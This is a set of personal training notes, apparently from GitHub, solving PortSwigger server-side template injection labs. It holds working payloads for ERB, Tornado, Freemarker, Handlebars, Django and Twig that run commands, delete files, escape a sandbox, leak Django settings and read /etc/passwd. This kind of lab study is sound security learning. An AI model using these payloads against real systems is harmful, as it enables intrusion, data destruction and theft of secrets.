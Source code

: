 **Basic server-side template injection**


Our ssti test payload
```
<%= 7*7 %>
```

From <https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic> 

Vulnerable
?message parameter 


Url encoded key characters 
`https://0a8a000f0473aa8f828e79ce0027007b.web-security-academy.net/?message=%3C%25%3d+7*7+%25%3E`

We get 49 we show that ssti exist 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/22476f4f-5fa2-455e-b3e1-46e10bcd5d8a)




To delete file use payload 
```
<%= system("rm /home/carlos/morale.txt") %>
```

From <https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic> 

Url encoded key characters
```
https://0a8a000f0473aa8f828e79ce0027007b.web-security-academy.net/?message=?message=%3C%25+system(%22rm+/home/carlos/morale.txt%22)+%25%3E
```

We deleted the file 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/c56291a2-d545-44ff-8972-87b47644ef71)



**Basic server-side template injection (code context)**

Login with given creds
Place a comment

On the account page change preferred name and capture request 
Place our payload after username to escape 
```
}}{{7*7}}
We escaped and now our username is followed by 49 which shows poc of ssti
``` 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3ee79a07-d127-430f-9daa-46ca05678565)


Exploit 
To exploit tornado template
Import os and execute a command 
```
{% import os %}
 {{os.system('rm /home/carlos/morale.txt')
```

From <https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context> 

Our exploit with url encode
```
blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/8cea1cda-212e-4c6c-b274-f9214ddabfc6)

From <https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context> 



Lab solved
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/35101f0f-5615-4a8d-930d-2e0b0c0a7ae4)


Server-side template injection using documentation

Signing in we can edit templates
Remember always save a backup of changes 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/8d9e85a1-312c-4e06-bdae-59115ef1bd1b)



See if we can return an error
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/4d734132-7ab6-4e2d-a3af-a32e606c4918)

We did 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/771d9a6f-510b-4eb1-9c87-6d689e7a7707)



Freemarker is returned
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/bd0650e6-f5cb-4c52-bb48-923e8ea170e7)

Using hacktricks for freemarker ssti cheatsheeet
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
We got the id of the user
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/c2d8b20c-9ff2-4ccd-a74e-b5100bad8994)


To delete
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm /home/carlos/morale.txt")}
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/8bc28797-f728-4324-8d1d-6a63e7b2cc25)


Server-side template injection in an unknown language with a documented exploit

Getting more detail result in the unfortunately product is out of stock
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/0f167092-f0f9-4cd4-922b-03bca008f60a)


Hello is reflected 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/17b2533b-c55e-4286-9b76-b7500fa5b42b)



Fuzzing 
Using payload form hacktrick
```
https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/1e45a158-5055-451b-8fbc-9762471e9bdd)

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/751180c9-01a7-4f79-9312-620f75fbb17c)




Grep extract the reflected message
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/a2c5d5a9-5e29-412e-ab51-62142ab42454)



Handlebar exception returned in the payload indicated we need a handlebar ssti exploit
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/8e4f6936-e2e7-4701-b7d8-9a0246fb33ea)



Exploit 

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Url encode
```
https://www.urlencoder.org/
```

Exploit
```
https://0ada00bb03b165bf809a2b9c006f0095.web-security-academy.net/?message=%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27whoami%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/994d857c-ca84-4c3e-8d3e-3372655a7fac)


Real world used collaborator server and curl to it 



Server-side template injection with information disclosure via user-supplied objects

Entering random ssti payload gave us information about django
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3a6b70c0-8a5e-41b6-83b2-4c3b4a5b2857)


Using the following to get payload for django ssti
https://github.com/Lifars/davdts

```
{% debug %}
```

From <https://github.com/Lifars/davdts> 

Gave us information leakage
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3dbde03a-7962-4798-a2d0-77d364c67525)


Pay attention to settings
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/12434a6f-8f5e-4250-9134-e893b78cba80)



Entering settings
```
{{settings}}
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/cba62fa3-18e3-427c-bd34-67abfe3d4ef9)


Looking at django documentation on keys to find how to access secret key
https://docs.djangoproject.com/en/4.2/ref/settings/
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/55776600-4bfd-4336-889d-d78cac71eb42)

***Server-side template injection in a sandboxed environment***
Freemarker template used after constructing error
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/694b77ca-83a7-4c09-8415-c6e665c58dbd)

Our payload
```
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}

We got an error indicating that article doesn't exist
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/cc6eeb36-8fb6-4873-8437-26b751ad884c)

Change to an existing variable: product
<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

We get rce
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/ffde7327-4877-458a-861e-8fb3425358f4)



**Server-side template injection with a custom exploit**

Warning
As with many high-severity vulnerabilities, experimenting with server-side template injection can be dangerous. If you're not careful when invoking methods, it is possible to damage your instance of the lab, which could make it unsolvable. If this happens, you will need to wait 20 minutes until your lab session resets. 

From <https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-a-custom-exploit> 

Uploading something that not an image give us this error
```
User->setAvatar('/tmp/test.php', 'application/oct...')
```

```
From <https://0a5300050357a86b8657dc93005d00e2.web-security-academy.net/my-account/avatar> 
User.php was mention
/home/carlos/User.php
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/8545bb08-9f6d-40d0-ade5-82b59c80d745)

```
From <https://0a5300050357a86b8657dc93005d00e2.web-security-academy.net/my-account/avatar>
``` 





Throw in payload to see if we error
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3f817572-de6c-4a24-8b4f-0749bc3543dd)


Doesn't display anything useful

Going to our display to first name 
Transfer to repeater 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/76cccbb9-27c9-4857-9bfb-79d85d037819)



Change being reflected let try `setAvatar()`
 
Twig template
Error messages
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/90bde735-efc7-47a1-bc35-323be593a076)

Changing parameter 
```
user.setAvatar('/etc/passwd')
```

Give us an error message indicating few parameters
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/b202fcec-4a40-4ba7-8378-3e8b9a69916a)


Parameter given in previous when we try to upload a webshell
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/db42af9d-7648-4e47-84de-88a6b6f575f5)


Get the mimetype that accept the file upload 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/f9aee43d-076f-49d3-9939-bee4fc6c0dc2)


